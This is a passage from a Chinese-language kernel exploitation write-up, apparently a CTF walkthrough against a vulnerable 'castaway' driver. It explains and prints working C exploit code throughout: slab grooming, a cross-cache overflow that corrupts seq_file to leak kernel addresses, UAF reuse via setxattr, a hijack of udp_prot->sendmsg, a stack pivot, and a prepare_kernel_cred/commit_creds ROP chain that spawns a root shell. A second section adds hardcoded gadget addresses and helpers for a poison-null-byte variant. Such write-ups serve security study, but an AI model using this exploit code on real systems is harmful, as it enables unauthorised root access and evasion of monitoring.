

**函数调用链详解**：

1. **用户空间**：`open("/proc/self/stat", O_RDONLY)`触发系统调用
2. **系统调用入口**：`do_sys_open()`处理打开请求
3. **文件系统处理**：`vfs_open()`调用proc文件系统的open操作
4. **proc文件系统**：`proc_single_open()`处理`/proc/self/stat`文件的打开
5. **seq文件初始化**：`single_open()`调用`seq_open()`分配和初始化seq_file结构
6. **内存分配**：
    - `kzalloc(sizeof(seq_file), GFP_KERNEL)`分配seq_file结构体
    - `kmalloc(sizeof(seq_operations), GFP_KERNEL)`分配seq_operations结构体
7. **关联建立**：将seq_operations结构体指针赋值给seq_file->op字段
8. **返回描述符**：返回文件描述符用于后续操作

**数据结构关系**：

- `seq_file`结构体：包含buf指针、size、from、count等字段
- `seq_operations`结构体：包含start、next、show、stop等函数指针
- 两者通过`seq_file->op`字段关联，形成完整的文件操作接口

#### 4-3-5. 干扰页面释放与slab隔离

释放剩余的干扰页面，完成内存布局塑造。此时内存中主要剩下目标结构体，形成相对孤立的内存区域，为后续的跨缓存溢出提供了理想条件。这种slab隔离减少了其他对象的干扰，提高了技术实现的成功率。

```c
for (int i = 0; i < INITIAL_PAGE_SPRAY; i += 2) {
    free_page(i);
}
```

此时内存布局已经塑造完成，形成了目标结构体相对集中的内存区域。这种布局为后续的跨缓存溢出提供了理想条件：目标结构体与漏洞设备分配的对象在物理内存中相邻，且周围干扰较少。通过精确的内存布局控制，技术实现创造了一个有利于后续操作的内存环境。

### 4-4. 信息泄露机制阶段

#### 4-4-1. 跨缓存溢出原理

跨缓存溢出利用了SLUB分配器的内存布局特性。当特定大小的缓存耗尽时，分配器会从更高阶的页面分割新slab。如果不同缓存的对象在物理内存中相邻，溢出一个缓存的对象可能影响相邻缓存的对象。这种技术允许从一个缓存类型溢出到相邻的不同缓存类型，修改相邻内存结构的关键字段。

**溢出数据构造**：

```c
evil_addr = 0xfffffe0000000014 - 0x8;
memcpy(&evil_data[CHUNK_SIZE - 6], &evil_addr, 6);
edit_vuln_page(isolation_pages, 0, evil_data, CHUNK_SIZE);
```

**函数调用链**：

```
edit_vuln_page() → edit_chunk() → ioctl() → castaway_ioctl() → castaway_edit() → memcpy() [溢出发生]
```

**溢出条件**：

1. **内存相邻**：源对象和目标对象在物理内存中相邻，这是通过之前的内存布局塑造实现的。
2. **大小合适**：溢出数据足够覆盖目标对象关键字段，需要精确控制溢出数据的长度和内容。
3. **缓存兼容**：源和目标缓存分配策略兼容，确保溢出能够正确影响目标对象。

#### 4-4-2. 内核基址泄露

信息泄露是通过跨缓存溢出修改`seq_file`结构体的`buf`指针实现的。`seq_file`结构体的内存布局决定了溢出数据的构造方式，需要精确控制溢出位置以修改目标字段。

**seq_file结构体布局**：

```
seq_file结构体布局:
+0x00: buf指针     (8字节)  - 目标修改位置
+0x08: size        (8字节)
+0x10: from        (8字节)
+0x18: count       (8字节)
+0x20: pad         (8字节)
+0x28: version     (8字节)
+0x30: lock        (8字节)
+0x38: op指针      (8字节)  - 指向seq_operations
...
```

**泄露原理**：

1. 通过跨缓存溢出修改相邻`seq_file`结构体的`buf`指针
2. 将`buf`指针指向内核代码段的已知地址（`__entry_text_end+31194`）
3. 调用`read()`系统调用读取文件内容
4. 内核从被篡改的`buf`指针读取数据，泄露内核地址

**泄露代码实现**：

```c
for (int i = 0; i < 0x100; i++) {
    memset(seq_data, 0, 0x20);
    read(seq_fd[i], (char *)seq_data, 0x20);

    if (seq_data[0] > kernel_base && ((seq_data[0] & 0xfff) == (__ENTRY_TEXT_END & 0xfff))) {
        kernel_offset = seq_data[0] - __ENTRY_TEXT_END;
        kernel_base += kernel_offset;
        evil_seq_index = i;

        log.success("Phase 3-3: Found victim seq_fd[%d]", evil_seq_index);
        log.success("Phase 3-3: Leaked __entry_text_end+31194: 0x%lx", seq_data[0]);
        log.success("Phase 3-3: Kernel base: 0x%lx", kernel_base);
        log.success("Phase 3-3: Kernel offset: 0x%lx", kernel_offset);
        break;
    }
}
```

**系统调用详细路径**：

```
__x64_sys_read() → ksys_read() → vfs_read() → seq_file->ops->read() → seq_read() →
访问seq_file->buf [被篡改为内核代码地址] → copy_to_user()返回内核地址
```

**内存修改示意图**：

```
溢出前内存布局：
[castaway_chunk数据][seq_file结构体]
                   ↑
                   seq_file->buf指向合法缓冲区

溢出后内存布局：
[castaway_chunk数据+溢出数据][seq_file结构体]
                            ↑
                            seq_file->buf被修改为内核代码地址0xfffffe0000000014
```

**关键细节**：

- 目标地址计算：`0xfffffe0000000014 - 0x8` 用于对齐内存访问，确保读取操作的正确性。
- 泄露验证：通过检查地址的低12位是否与`__ENTRY_TEXT_END`匹配来验证泄露的有效性，避免误判。
- 偏移计算：`kernel_offset = leaked_addr - __ENTRY_TEXT_END` 计算内核基址偏移，为后续的地址计算提供基础。

#### 4-4-3. 多级指针追踪

获取内核基址后，通过多级指针追踪获取更具体的地址信息。这是一个渐进式过程，每一步都依赖前一步的结果。指针追踪通过修改读取指针，逐步深入内核数据结构内部，获取越来越具体的地址信息。

**第一级：模块地址获取**
通过内核模块链表获取目标模块地址：

```c
evil_addr = kernel_offset + MODULES - 0x8 - 0x20;
memcpy(&evil_data[CHUNK_SIZE - 6], &evil_addr, 6);
edit_vuln_page(isolation_pages, 0, evil_data, CHUNK_SIZE);

memset(seq_data, 0, 0x20);
read(seq_fd[evil_seq_index], (char *)seq_data, 0x20);
castaway_module = seq_data[0];
log.success("Phase 3-4: Leaked castaway_module: 0x%lx", castaway_module);
```

**第二级：数组地址获取**
从模块结构体中获取全局数组指针：

```c
evil_addr = castaway_module + 0x2f8 - 0x8 - 0x20 - 0x20;
memcpy(&evil_data[CHUNK_SIZE - 6], &evil_addr, 6);
edit_vuln_page(isolation_pages, 0, evil_data, CHUNK_SIZE);

memset((char *)seq_data, 0, 0x20);
read(seq_fd[evil_seq_index], (char *)seq_data, 0x20);
castaway_arr = seq_data[0];
log.success("Phase 3-5: Leaked castaway_arr: 0x%lx", castaway_arr);
```

**第三级：堆块地址获取**
从数组中获取具体堆块地址用于ROP链：

```c
evil_addr = castaway_arr - 0x8 - 0x20 - 0x20 - 0x20;
memcpy(&evil_data[CHUNK_SIZE - 6], &evil_addr, 6);
edit_vuln_page(isolation_pages, 0, evil_data, CHUNK_SIZE);

memset((char *)seq_data, 0, 0x20);
read(seq_fd[evil_seq_index], (char *)seq_data, 0x20);
castaway_arr_1 = seq_data[1];
log.success("Phase 3-6: Leaked castaway_arr[1]: 0x%lx", castaway_arr_1);
```

**指针追踪图示**：

```
内核基址 → 模块链表头MODULES → castaway模块结构体 → 模块全局变量castaway_arr → 堆数组元素castaway_arr[1]
```

**地址计算说明**：

- 每个阶段的地址计算都包含对齐调整（-0x8, -0x20等），确保内存访问的正确对齐。
- 通过偏移量精确控制读取的目标地址，利用内核数据结构的已知布局进行导航。
- 每次读取都验证地址的有效性和合理性，确保指针追踪的准确性。

### 4-5. 控制流重定向阶段

#### 4-5-1. 释放后重用技术

释放后重用（Use-After-Free）是内存安全漏洞的常见利用技术。在本实现中，通过精确控制内存的释放和重新分配，创建类型混淆条件。UAF允许在内存释放后继续使用原始指针，当相同内存被重新分配用于不同类型的数据时，会产生类型混淆。

**UAF生命周期**：

```
时间线: t0 → t1 → t2 → t3 → t4
事件:  分配 → 使用 → 释放 → 重用 → 混淆访问
状态:  [有效] → [有效] → [空闲] → [占用] → [类型混淆]
```

**实现步骤**：

1. 释放目标内存块
2. 重新分配内存占位
3. 类型混淆访问

```c
evil_addr = castaway_arr;
memcpy(&evil_data[CHUNK_SIZE - 6], &evil_addr, 6);
edit_vuln_page(isolation_pages, 0, evil_data, CHUNK_SIZE);

close(seq_fd[evil_seq_index]);
log.success("Phase 4-1: Freed castaway_arr");
```

**函数调用链**：

```
close() → filp_close() → fput() → seq_release() → 释放seq_file相关结构
```

**关键机制**：

- 内存释放：通过关闭文件描述符触发内核释放相关的数据结构内存。
- 内存重用：通过其他系统调用分配相似大小的内存，利用SLUB分配器的重用特性占用释放的内存区域。
- 类型混淆：通过原始指针访问重新分配的内存，产生类型混淆，实现内存内容的任意修改。

#### 4-5-2. 函数指针篡改

`udp_prot`结构体是UDP协议的操作函数表，篡改其中的函数指针可以重定向网络操作的控制流。通过修改函数指针，可以在特定操作触发时引导控制流到预定位置。

**udp_prot结构体布局**：

```c
struct proto {
    // ... 其他成员 ...
    int (*sendmsg)(struct sock *sk, struct msghdr *msg, size_t len);      // 偏移0x68
    int (*recvmsg)(struct sock *sk, struct msghdr *msg,
                   size_t len, int noblock, int flags, int *addr_len);    // 偏移0x70
    // ... 更多成员 ...
};
```

**篡改策略**：
构造特殊的指针结构，使`udp_prot->sendmsg`指向一个包含目标地址的指针：

```c
log.info("Phase 4-2: Setting up fake udp_prot function pointers using setxattr");
rop_chain = (size_t *)evil_data;
rop_chain[0] = kernel_offset + UDP_PROT + 0x68 - 0x6;  // udp_prot->sendmsg
rop_chain[1] = castaway_arr_1 - 0x6;

setxattr("/etc/passwd", "user.test", rop_chain, 0x1000, XATTR_CREATE);
log.success("Phase 4-2: Set up fake udp_prot function pointers");
```

**系统调用链分析**：`setxattr`系统调用通过以下路径最终调用内核的内存分配函数：

```
用户空间setxattr() → 系统调用入口__x64_sys_setxattr() → path_setxattr() → 文件系统setxattr操作 → kvmalloc(size, GFP_KERNEL)分配内存
```

**函数调用链详解**：

1. **用户空间**：`setxattr("/etc/passwd", "user.test", rop_chain, 0x1000, XATTR_CREATE)`触发系统调用
2. **系统调用入口**：`__x64_sys_setxattr()`处理扩展属性设置请求
3. **路径解析**：`path_setxattr()`解析文件路径并验证权限
4. **文件系统处理**：调用具体文件系统的`setxattr`操作，对于ext4文件系统为`ext4_xattr_set()`
5. **内存分配**：`kvmalloc(size, GFP_KERNEL)`分配内核虚拟内存，size参数为0x1000（4KB）
6. **数据复制**：将用户空间的ROP链数据复制到新分配的内核内存中
7. **内存重用**：由于SLUB分配器的特性，新分配的内存可能重用之前释放的`seq_file`相关结构内存区域

**指针计算说明**：

- `UDP_PROT + 0x68`：`sendmsg`函数指针在udp_prot结构体中的偏移，这是控制流重定向的目标位置。
- 减去6字节：对齐调整，确保访问正确，避免内存访问异常。
- `castaway_arr_1 - 0x6`：指向包含ROP链的内存区域，这是控制流的最终目的地。

#### 4-5-3. 控制流重定向路径

当UDP套接字调用`sendto()`时，控制流重定向路径如下。正常路径通过协议栈的层层处理最终调用UDP协议的发送函数，而被篡改的路径则通过修改的函数指针跳转到预定位置。

```
正常调用路径: sendto() → sock_sendmsg() → inet_sendmsg() → udp_sendmsg()
重定向后路径: sendto() → sock_sendmsg() → inet_sendmsg() → [被篡改的指针] → 间接跳转 → 栈指针调整
```

**系统调用链图示**：



**控制流转移机制**：

1. **正常调用链**：遵循标准的网络协议栈处理流程，从用户空间系统调用入口开始，经过套接字层、网络层、传输层，最终到达UDP协议的具体实现。
2. **指针篡改点**：在`udp_prot->sendmsg`处，正常的函数指针被篡改为可控的指针。
3. **间接跳转**：被篡改的指针指向另一个包含目标地址的指针，形成两级间接跳转，增加了控制流的灵活性和隐蔽性。
4. **栈指针调整**：最终跳转到栈指针调整gadget，为ROP链执行准备执行环境。

#### 4-5-4. 栈指针调整准备

在控制流重定向后，首先需要调整栈指针到可控内存区域。这是通过预先设置的gadget实现的，栈指针调整是ROP链执行的前提条件，确保后续的代码片段能够在正确的栈位置上执行。

```c
log.info("Phase 4-3: Setting up initial ROP chain for stack pivot");
*(size_t *)evil_data = kernel_offset + ADD_RSP_0X198_RET;
edit_chunk(0, 0x10, evil_data);
```

**栈指针调整原理**：

- `add rsp, 0x198`：将栈指针增加0x198字节，移动栈指针到可控的ROP链起始位置。
- `ret`：从新的栈位置继续执行，开始执行ROP链中的第一个gadget。
- 调整后的栈指针指向精心布置的ROP链，为后续的权限提升操作提供执行环境。

**栈布局设计**：

1. **原始栈位置**：控制流重定向时的当前栈位置，可能包含不可控的内核数据。
2. **目标栈位置**：经过栈指针调整后的位置，指向完全可控的ROP链。
3. **ROP链布局**：在目标栈位置预先布置了一系列gadget地址和参数，形成完整的执行逻辑。

### 4-6. 代码执行与权限提升阶段

#### 4-6-1. ROP链设计原理

ROP（Return-Oriented Programming）技术通过链接以`ret`指令结束的代码片段（gadget）实现任意计算。每个gadget执行特定操作并通过`ret`指令转移到下一个gadget。ROP技术不依赖代码注入，完全重用内核中已有的代码片段，具有较高的隐蔽性和兼容性。

**ROP链构造**：

```c
void prepare_rop_chain(void) {
    log.info("Phase 4-3: Building ROP chain for privilege escalation");

    int i = 0;
    rop_chain = (size_t *)evil_data;

    rop_chain[i++] = kernel_offset + POP_RDI_RET;
    rop_chain[i++] = 0;                                      // arg0 for prepare_kernel_cred
    rop_chain[i++] = kernel_offset + PREPARE_KERNEL_CRED;   // prepare_kernel_cred(0)
    rop_chain[i++] = kernel_offset + POP_RCX_POP_RBX_POP_R12_POP_RBP_RET;
    rop_chain[i++] = 0;  // rcx
    rop_chain[i++] = 0;  // rbx
    rop_chain[i++] = 0;  // r12
    rop_chain[i++] = 0;  // rbp
    rop_chain[i++] = kernel_offset + MOV_RDI_RAX_REP_MOVSQ_RDI_RSI_RET;  // move cred to rdi
    rop_chain[i++] = kernel_offset + COMMIT_CREDS;         // commit_creds(cred)
    rop_chain[i++] = kernel_offset + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 0x22;
    rop_chain[i++] = *(size_t *)"BinRacer";  // dummy
    rop_chain[i++] = *(size_t *)"BinRacer";  // dummy
    rop_chain[i++] = (size_t)restore_udp_prot;  // return address
    rop_chain[i++] = user_cs;
    rop_chain[i++] = user_rflags;
    rop_chain[i++] = user_sp + 8;
    rop_chain[i++] = user_ss;

    log.success("Phase 4-3: ROP chain prepared with %d gadgets", i);
}
```

**ROP链布局**：

1. **寄存器准备**：设置`rdi`寄存器为0，准备调用`prepare_kernel_cred`，这是权限提升的起始步骤。
2. **权限提升**：调用`prepare_kernel_cred(0)`创建root凭证，然后调用`commit_creds`应用凭证，完成权限提升的核心操作。
3. **寄存器清理**：清理其他寄存器，避免干扰后续执行，确保执行环境的稳定性。
4. **用户态返回**：通过`swapgs_restore_regs_and_return_to_usermode`安全返回用户态，这是内核返回用户态的标准路径。
5. **状态恢复**：返回后执行`restore_udp_prot`恢复内核数据结构，确保系统稳定性。

**gadget选择原则**：

1. **功能完整性**：每个gadget执行特定的原子操作，组合起来实现完整的功能逻辑。
2. **寄存器管理**：妥善处理寄存器状态，避免寄存器冲突和状态污染。
3. **栈平衡**：确保每个gadget执行后栈指针正确移动，维持栈的平衡状态。
4. **控制流连贯**：gadget之间转移平滑，避免控制流中断或跳转到无效地址。

#### 4-6-2. 权限提升原语

权限提升通过两个关键内核函数实现：`prepare_kernel_cred`和`commit_creds`。这两个函数是Linux内核权限管理的核心接口，提供了标准的权限操作原语。

**权限提升流程**：

```
pop rdi; ret           # 设置rdi=0
prepare_kernel_cred    # 创建root凭证
mov rdi, rax; ... ret  # 凭证指针移到rdi
commit_creds           # 应用凭证到当前进程
```

**函数调用链**：

```
prepare_kernel_cred() → __prepare_kernel_cred() → kmem_cache_alloc()分配凭证结构 → 初始化root权限
commit_creds() → __commit_creds() → rcu_assign_pointer(current->cred, new_cred) → security_commit_creds()
```

**凭证管理机制**：

1. **凭证结构**：Linux内核使用`struct cred`表示进程的安全上下文，包含用户ID、组ID、能力集等信息。
2. **凭证创建**：`prepare_kernel_cred`函数创建新的凭证结构，参数0表示创建root权限的凭证。
3. **凭证应用**：`commit_creds`函数将新凭证应用到当前进程，更新进程的安全属性。
4. **引用计数**：凭证结构使用引用计数管理生命周期，确保凭证的正确释放。

**权限提升效果**：

- **用户ID**：从普通用户（如1000）变为root用户（0）
- **组ID**：从普通组变为root组
- **能力集**：获得所有内核能力（CAP_SYS_ADMIN等）
- **命名空间**：在全局命名空间中具有完全访问权限

#### 4-6-3. 执行触发机制

ROP链通过UDP套接字的`sendto()`系统调用触发。通过内联汇编精确控制寄存器状态，确保系统调用正确执行，同时为控制流重定向提供必要的寄存器环境。

```c
void trigger_rop_chain(void) {
    log.info("Phase 5: Triggering ROP chain via udp_prot hijack");

    sock_fd = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP);
    if (sock_fd < 0) {
        log.error("trigger_rop_chain: Failed to create socket");
        exit(-1);
    }

    serv_addr.sin_family = AF_INET;
    serv_addr.sin_port = htons(8080);
    serv_addr.sin_addr.s_addr = inet_addr("127.0.0.1");

    pop_rsp_ret = kernel_offset + POP_RSP_RET;

    log.info("Phase 5: Building pt_regs and calling sendto()");

    __asm__(
        "mov r15,   0xbeefdead;"
        "mov r14,   pop_rsp_ret;"
        "mov r13,   castaway_arr_1;"
        "mov r12,   0x33333333;"
        "mov rbp,   0x44444444;"
        "mov rbx,   0x55555555;"
        "mov r11,   0x66666666;"
        "mov r10,   0;"
        "mov r9,    0x10;"
        "lea r8,    serv_addr;"
        "mov rax,   0x2c;"  // sendto syscall
        "mov rcx,   0xaaaaaaaa;"
        "mov rdx,   0;"
        "mov rsi,   0;"
        "mov rdi,   sock_fd;"
        "syscall"
    );
}
```

**系统调用链**：

```
sendto() → __x64_sys_sendto() → __sys_sendto() → sock_sendmsg() → sock_sendmsg_nosec() →
security_socket_sendmsg() → sock->ops->sendmsg [被篡改] → 间接跳转 → 执行ROP链
```

**寄存器设置说明**：

- `r14`：栈指针调整gadget地址，用于后续的栈指针调整操作。
- `r13`：ROP链起始地址，指向精心布置的gadget序列。
- `r9`：消息长度参数，设置为0x10（16字节）。
- `r8`：目标地址结构，指向本地回环地址127.0.0.1:8080。
- `rax`：系统调用号，0x2c对应`sendto`系统调用。
- 其他寄存器：设置为特定值，避免干扰控制流重定向。

**触发过程**：

1. **套接字创建**：创建UDP套接字，建立网络通信上下文。
2. **地址设置**：设置目标地址为本地回环地址，避免实际网络通信。
3. **寄存器准备**：通过内联汇编精确设置所有寄存器状态。
4. **系统调用触发**：执行`sendto`系统调用，进入内核执行路径。
5. **控制流重定向**：通过被篡改的函数指针跳转到ROP链执行。

#### 4-6-4. 用户态安全返回

权限提升后，需要安全返回用户态。这通过`swapgs_restore_regs_and_return_to_usermode`函数实现，该函数是内核返回用户态的标准路径，处理了内核态到用户态的所有必要转换。

**返回前准备**：

1. 保存用户态寄存器：在ROP链末尾包含用户态寄存器值，确保正确恢复执行环境。
2. 设置返回地址：指定返回用户态后的执行地址，指向状态恢复函数。
3. 执行swapgs指令切换GS寄存器：切换内核GS段和用户GS段，这是x86_64架构的要求。
4. 通过iretq或sysretq返回用户态：使用适当的返回指令从内核态切换到用户态。

**函数调用链**：

```
swapgs_restore_regs_and_return_to_usermode() → swapgs指令切换GS寄存器 → 恢复用户态寄存器 → iretq返回用户态
```

**安全返回机制**：

1. **寄存器恢复**：从栈中恢复保存的用户态寄存器值，包括代码段、栈指针、标志寄存器等。
2. **段寄存器切换**：正确设置段选择子，从内核段切换到用户段。
3. **栈切换**：从内核栈切换到用户栈，恢复用户态栈环境。
4. **控制流转移**：将控制权交还给用户态程序，继续正常执行。

**返回后执行**：

1. **状态恢复函数**：执行`restore_udp_prot`函数，恢复被修改的内核数据结构。
2. **权限验证**：检查当前进程权限，确认权限提升成功。
3. **上下文获取**：启动特权shell，获取提升后的权限上下文。

### 4-7. 状态恢复与清理阶段

#### 4-7-1. 内核数据结构恢复

在控制流重定向阶段，修改了`udp_prot`结构体的函数指针。为确保系统稳定，需要将这些指针恢复为原始值。状态恢复体现了技术实现的完整性和对系统影响的考虑，避免留下不稳定的系统状态。

```c
void restore_udp_prot(void) {
    puts("");
    log.info("==============================================");
    log.info("Phase 6: Restore and root shell");
    log.info("==============================================");
    log.info("Phase 6: Restoring udp_prot function pointers");
    rop_chain[0] = kernel_offset + UDP_SENDMSG;
    rop_chain[1] = kernel_offset + UDP_RECVMSG;
    edit_chunk(0, 0x10, (char *)rop_chain);
    log.success("Phase 6: Function pointers restored");

    get_root_shell();
}
```

**恢复过程**：

1. 获取原始函数指针：通过内核偏移计算原始`udp_sendmsg`和`udp_recvmsg`地址，使用之前泄露的内核基址信息。
2. 修改内存内容恢复指针：通过`edit_chunk`函数将篡改的指针恢复为原始值，使用相同的漏洞接口但不同的数据内容。
3. 验证恢复结果：确保指针已正确恢复，可以通过间接方式验证函数指针是否指向正确位置。

**函数调用链**：

```
edit_chunk() → ioctl() → castaway_ioctl() → castaway_edit() → memcpy()恢复原始指针
```

**恢复的重要性**：

1. **系统稳定性**：防止后续UDP操作因无效函数指针导致系统崩溃，确保网络协议栈正常工作。
2. **隐蔽性**：减少技术实现痕迹，避免异常的系统行为引起监控系统注意。
3. **可重用性**：允许同一系统多次执行技术实现，避免因残留的修改导致后续操作失败。

#### 4-7-2. 资源清理

技术实现过程中分配了多种资源，需要妥善清理以避免资源泄漏。资源清理体现了良好的编程实践，确保技术实现不会对系统造成持久性影响。

```c
void cleanup(void) {
    for (int i = 0; i < MAX_SEQ_FDS; i++) {
        if (seq_fd[i] > 0) {
            close(seq_fd[i]);
        }
    }
    if (sock_fd > 0) {
        close(sock_fd);
    }
    if (dev_fd > 0) {
        close(dev_fd);
    }
}
```

**系统调用链**：

```
close() → ksys_close() → filp_close() → fput() → 调用文件操作的release方法释放资源
```

**清理的资源类型**：

1. **文件描述符**：关闭所有打开的文件描述符，包括漏洞设备文件、序列文件、套接字等。
2. **套接字**：关闭创建的UDP套接字，释放相关的网络资源。
3. **设备文件**：关闭漏洞设备文件，释放设备占用的资源。
4. **内存映射**：释放所有内存映射，确保没有残留的内存占用。

**清理策略**：

1. **顺序清理**：按分配顺序反向清理，遵循后分配先释放的原则。
2. **错误容忍**：忽略清理过程中的非致命错误，避免清理操作本身导致问题。
3. **完全清理**：确保所有资源都被释放，进行全面的资源检查。

**清理机制**：

1. **引用计数**：内核通过引用计数管理资源，当引用计数降为0时自动释放资源。
2. **延迟释放**：某些资源可能采用延迟释放策略，在适当时机实际释放资源。
3. **资源回收**：释放的资源被系统回收，可以重新分配给其他进程使用。

#### 4-7-3. 权限上下文获取

在恢复系统状态后，需要获取提升后的权限上下文。这通过执行特权shell实现，验证权限提升是否成功，并为后续操作提供特权执行环境。

```c
void get_root_shell(void) {
    if (getuid() != 0) {
        return;  // 权限提升失败
    }

    char *args[] = {"/bin/sh", NULL};
    execve("/bin/sh", args, NULL);
}
```

**函数调用链**：

```
getuid() → __x64_sys_getuid() → from_kuid()返回用户ID
execve() → __x64_sys_execve() → do_execve() → 加载并执行shell
```

**权限验证**：

1. **用户ID检查**：通过`getuid()`检查当前用户ID是否为0（root），这是最基本的权限验证。
2. **能力检查**：验证进程是否具有完整特权，包括检查能力集和命名空间权限。
3. **环境检查**：确保执行环境正确，包括文件系统访问权限和进程限制。

**Shell启动**：

1. **参数准备**：设置shell执行参数，包括程序路径和参数列表。
2. **环境继承**：继承当前环境变量，确保shell具有完整的执行环境。
3. **进程替换**：使用`execve`替换当前进程为shell，开始特权会话。

### 4-8. 技术实现总结

本技术实现通过六个阶段的精心设计与协同配合，完整展示了从环境准备到权限获取的完整技术流程，涵盖了从用户态到内核态的完整执行路径，体现了现代系统安全技术实现的高度复杂性和系统性。通过内存布局塑造、信息泄露、控制流重定向、代码复用和状态恢复等多个技术组件的有机结合，实现了在受限制环境下的权限提升目标，为系统安全研究提供了深入的技术参考和实践案例。整个技术实现过程不仅展示了现代内核漏洞利用技术的复杂性和系统性，也揭示了内核安全机制的潜在薄弱环节，为系统安全防护提供了重要的参考依据，通过深入分析技术实现过程中的每个系统调用和内核操作，可以更好地理解内核漏洞的利用原理和防御方法，为构建更安全的操作系统提供了技术基础和实践经验。技术实现采用模块化设计和渐进式推进策略，每个阶段都有明确的目标和实现方法，阶段间通过严格的数据传递和时序控制实现协同工作，展现了高水平的技术工程能力。同时，技术实现充分考虑了容错性和系统影响最小化，在完成主要目标后主动恢复系统状态，体现了对系统稳定性的重视，为类似技术实现提供了可借鉴的设计思路和实现方法。

## 5. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 6. 进阶分析：Poison Null Byte 技术实现

exploit核心代码如下：

```c
/* Absolute kernel symbol addresses in default image (base 0xffffffff81000000) */
#define PREPARE_KERNEL_CRED                        0xffffffff8106a880
#define COMMIT_CREDS                               0xffffffff8106a6e0
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff81400cb0
#define SINGLE_START                               0xffffffff8114bac0

#define POP_RDI_RET                                0xffffffff8120395c
#define POP_RCX_BX_12_BP_RET                       0xffffffff8137cfd3
#define MOV_RDI_RAX_MOVSQ_RET                      0xffffffff813965ea
#define PUSH_RSI_JMP_RSI_39                        0xffffffff8124e1f7
#define POP_RSP_BP_RET                             0xffffffff8124b1e3
#define ADD_RSP_0X40_RET                           0xffffffff81151191

/* Configuration constants */
#define CHUNK_SIZE                                 512
#define ISO_SLAB_LIMIT                             8
#define INITIAL_PAGE_SPRAY                         500
#define FINAL_PAGE_SPRAY                           30
#define MAX_SEQ_FDS                                0x100
#define MAX_PIPES                                  0x40

/* Global variables */
int dev_fd;
int seq_fd[MAX_SEQ_FDS];
int pipe_fds[MAX_PIPES][2];
size_t pipe_data[0x4000 / 8];
size_t seq_file_data[0x1000];
char evil_data[0x1000];
int evil_pipe_index = -1;
int victim_pipe_index = -1;
size_t *rop_chain = NULL;

/* Structure for user request to driver */
struct user_req {
    int64_t idx;
    uint64_t size;
    char *buf;
};

/* Structure to track isolated slab pages */
struct full_page {
    bool in_use;
    int idx[ISO_SLAB_LIMIT];
};

struct full_page isolation_pages[FINAL_PAGE_SPRAY] = {0};

/*
 * Device interaction wrappers
 */
int64_t alloc_chunk(void) {
    return ioctl(dev_fd, 0xCAFEBABE, 0);
}

int64_t edit_chunk(int64_t idx, uint64_t size, char *buf) {
    struct user_req req = {.idx = idx, .size = size, .buf = buf};
    return ioctl(dev_fd, 0xF00DBABE, (unsigned long)&req);
}

/*
 * Manage vulnerable driver chunks within isolation pages
 */
void alloc_vuln_page(struct full_page *pages, int page_idx) {
    assert(page_idx < FINAL_PAGE_SPRAY);
    assert(!pages[page_idx].in_use);

    for (int i = 0; i < ISO_SLAB_LIMIT; i++) {
        long result = alloc_chunk();
        if (result < 0) {
            log.error("alloc_vuln_page: allocation failed at page %d, chunk %d", page_idx, i);
            exit(-1);
        }
        pages[page_idx].idx[i] = result;
    }
    pages[page_idx].in_use = true;
}

void edit_vuln_page(struct full_page *pages, int page_idx, uint8_t *buf, size_t sz) {
    assert(page_idx < FINAL_PAGE_SPRAY);
    assert(pages[page_idx].in_use);

    for (int i = 0; i < ISO_SLAB_LIMIT; i++) {
        long result = edit_chunk(pages[page_idx].idx[i], sz, buf);
        if (result < 0) {
            log.error("edit_vuln_page: edit failed at page %d, chunk %d", page_idx, i);
            exit(-1);
        }
    }
}

/*
 * seq_file and pipe helpers
 */
void alloc_seq_file(int i) {
    seq_fd[i] = open("/proc/self/stat", O_RDONLY);
    if (seq_fd[i] < 0) {
        log.error("alloc_seq_file: failed to open /proc/self/stat");
        exit(-1);
    }
    read(seq_fd[i], (char *)pipe_data, 0x8);
}

void alloc_pipe_buff(int i) {
    if (pipe(pipe_fds[i]) < 0) {
        log.error("Failed to create pipe");
        return;
    }
}

void resize_pipe_buff(int i, int size) {
    if (fcntl(pipe_fds[i][0], F_SETPIPE_SZ, size) < 0) {
        log.error("Failed to resize pipe");
        return;
    }
}

/*
 * Resource cleanup
 */
void cleanup(void) {
    for (int i = 0; i < MAX_SEQ_FDS; i++) {
        if (seq_fd[i] > 0) close(seq_fd[i]);
    }
    for (int i = 0; i < MAX_PIPES; i++) {
        if (pipe_fds[i][0] > 0) close(pipe_fds[i][0]);
        if (pipe_fds[i][1] > 0) close(pipe_fds[i][1]);
    }
    if (dev_fd > 0) close(dev_fd);
}

